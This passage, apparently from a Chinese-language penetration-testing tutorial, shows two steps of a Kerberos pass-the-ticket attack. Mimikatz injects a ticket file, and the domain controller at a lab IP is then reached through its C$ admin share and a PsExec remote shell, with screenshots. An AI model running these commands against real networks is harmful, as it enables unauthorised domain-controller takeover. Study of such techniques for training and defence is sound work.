 #### 3、注入票据

```plain
kerberos::ptt carmi.kirbr
```

[![](assets/1706496056-3b6b9b1d0189d7399075da067ea23b67.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172316969-493974440.png)

#### 4、生成域控会话

```plain
misc::cmd
whoami
dir \\192.168.126.10\c$
PsExec.exe \\192.168.126.10 cmd
ipconfig
```

[![](assets/1706496056-4a5a3f02b8579aee8f2f23e08c0aa0c0.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172317352-404818271.png)
